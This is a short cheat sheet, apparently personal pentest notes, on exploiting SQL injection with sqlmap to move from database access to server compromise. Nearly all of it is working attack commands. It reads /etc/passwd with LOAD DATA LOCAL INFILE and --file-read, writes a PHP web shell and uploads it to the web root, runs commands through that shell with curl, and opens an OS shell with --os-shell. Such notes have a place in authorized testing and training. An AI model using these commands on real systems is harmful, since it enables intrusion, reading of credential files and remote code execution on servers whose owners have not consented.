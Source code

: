 DB user must have LOAD DATA and INSERT to be able to load the content of a file to a table and then reading that table.
- LOAD DATA LOCAL INFILE '/etc/passwd' INTO TABLE passwd;

Most times nowadays, we need DBA (database administrator) privileges to read and write files

## Check DBA Privileges
```shell-session
sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba
```
- If true, we can read local files

## Reading Local Files
```shell-session
sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"
```

## Writing Local Files (manual shell)
```shell-session
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
```shell-session
sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```
```shell-session
curl http://www.example.com/shell.php?cmd=ls+-la
```

## OS Command Execution (automatic shell)
```shell-session
sqlmap -u "http://www.example.com/?id=1" --os-shell
```
```shell-session
sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E
```
- Error-based, more reliable for output

